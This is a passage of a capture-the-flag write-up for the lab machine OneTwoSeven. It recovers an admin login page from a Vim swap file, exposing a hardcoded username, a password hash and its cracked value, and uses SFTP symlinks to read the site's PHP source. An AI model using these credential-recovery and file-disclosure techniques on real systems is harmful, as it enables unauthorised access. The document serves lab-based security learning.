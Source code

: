 ```
# file .login.php.swp
.login.php.swp: Vim swap file, version 8.0, pid 1861, user root, host onetwoseven, file /var/www/html-admin/login.php
```

A swap file is a binary file so I ran `strings` on it to clean it up and make it readable in a text editor:

```
# strings .login.php.swp > login.php.swp
```

The file contains a bunch of interesting things:

```php
if ($_POST['username'] == 'ots-admin' && hash('sha256',$_POST['password']) == '11c5a42c9d74d5442ef3cc835bda1b3e7cc7f494e704a10d0de426b2fbe5cbd8') {
if (isset($_POST['login']) && !empty($_POST['username']) && !empty($_POST['password'])) {
[...]
<p>Administration backend. For administrators only.</p>
<h1>OneTwoSeven Administration</h1>
[...]
<?php session_start(); if (isset ($_SESSION['username'])) { header("Location: /menu.php"); } ?>
<?php if ( $_SERVER['SERVER_PORT'] != 60080 ) { die(); } ?>
[...]
```

- There's an `ots-admin` user with a sha256 hash that is easily crackable to `Homesweethome1`
- The page mentions this is some kind of administration backend webpage
- The page is supposed to be accessed on port 60080 (which is firewalled / not listening on the 10.10.10.133 IP address)

### Getting the user flag

I can get the source of all the PHP files from the main website by creating additional symlinks:

```
sftp> ln -s /var/www/html/signup.php signup.txt
sftp> ln -s /var/www/html/index.php index.txt
sftp> ln -s /var/www/html/stats.php stats.txt
sftp> rm index.html
Removing /public_html/index.html
```

![](/assets/images/htb-writeup-onetwoseven/symlink4.png)
